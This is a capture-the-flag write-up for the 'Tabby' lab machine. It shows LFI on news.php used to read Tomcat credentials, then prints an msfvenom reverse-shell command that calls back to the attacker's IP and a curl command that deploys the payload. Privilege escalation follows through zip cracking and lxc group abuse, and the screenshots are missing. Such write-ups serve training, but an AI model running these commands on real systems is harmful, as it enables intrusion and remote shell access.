









# Tabby

## Gaining Access

Nmap scan:



### LFI

We would have to add `megahosting.htb` to our `/etc/hosts` file to view port 80. Afterwards, we would just see something like this on the page:


When we press the Compare button, we would be brought to `/news.php?file=statement`. I tested for LFI, and it worked!



### Tomcat

Tomcat was running on port 8080, and we would need to somehow get the manager password to upload a .war reverse shell. Since we have LFI, we can read it at `/usr/share/tomcat9/etc/tomcat-users.xml`.



The password is `$3cureP4s5w0rd123!`. Then, we can login to the admin dashboard, create a .war reverse shell using `msfvenom`, upload it, and execute it via `curl`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f war -o rev.war
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/mnager/text/deploy?path=/shell --upload-file rev.war
```



## Privilege Escalation

### Backup Zip -> Ash

When looking aroun the file system, I found this backup file here:



This waws password protected, so let's transfer this back to our machine via `nc` and then use `john` on it:



The backup file had nothing on it...which was weird. Since we have a password, might as well try `su`, and it worked to getting to `ash`:



### LXC Group

When we check the `id` of `ash`, we see that they are part of the `lxc` group.



This exploitable because we can create a container and mount it with root access to the main machine.



Following the resource above, we can spawn a root shell:



Rooted!
